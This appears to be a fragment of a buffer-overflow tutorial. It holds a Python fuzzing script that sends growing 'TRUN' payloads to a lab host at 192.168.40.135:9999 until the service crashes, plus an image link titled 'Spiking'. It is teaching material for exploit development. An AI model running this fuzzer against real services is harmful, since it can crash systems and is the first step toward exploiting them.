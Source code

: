 ```python
#!/bin/python

import sys
import socket
from time import sleep

buffer = 'A'*100
while True:
        try:
                 s = socket.socket(socket.AF_INET,socket.SOCK_STREAM)
                 s.connect(('192.168.40.135',9999))
                 
                 s.send(('TRUN / .:/' + buffer))
                 s.close()
                 sleep(1)
                 buffer = buffer + 'A'*100
        except:
                 print "Fuzzing crashed at %s bytes" % str(len(buffer))
                 sys.exit()
```
<img alt="" class="bg hc hd c" width="1000" height="620" loading="lazy" role="presentation" src="https://i.ibb.co/kg1Mc0y/1Spiking.png">

